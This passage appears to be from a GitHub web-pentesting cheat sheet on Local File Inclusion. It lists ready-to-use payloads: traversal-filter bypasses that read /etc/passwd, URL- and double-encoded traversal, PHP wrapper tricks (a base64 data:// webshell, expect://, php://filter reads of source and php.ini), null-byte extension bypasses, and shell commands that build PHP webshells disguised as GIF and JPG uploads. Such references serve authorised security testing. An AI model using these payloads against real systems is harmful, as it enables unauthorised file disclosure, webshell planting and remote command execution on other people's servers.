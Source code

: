 ### Tools
- https://github.com/internetwache/GitTools

## Local File Inclusion - LFI
### Replace ../ - Bypass
$language = str_replace('../', '', $_GET['file']);  
```
/....//....//....//....//etc/passwd  
..././..././..././..././etc/paswd  
....\/....\/....\/....\/etc/passwd 
```

### Block . and / - Bypass

-> urlencode and Double urlencode /etc/passwd  
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

### PHP Wrappers
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id  
expect://id  
php://filter/read=convert.base64-encode/resource=index.php  
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

### Filter PHP
-> Predefined Paths  
preg_match('/^\.\/okay\/.+$/', $_GET['file'])  

```
./okay/../../../../etc/passwd
```  

### PHP Extension Bypass with Null Bytes
```
https://site.com/index.php?file=/etc/passwd%00.php
```  
-> Removing .php  
```
https://site.com/index.php?file=index.p.phphp
```  
  
#### LFI + File Upload
-> gif  
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif
``` 
- https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif  
-> Zip  
1-  
```bash
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php
```
2-  
```
http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg 
```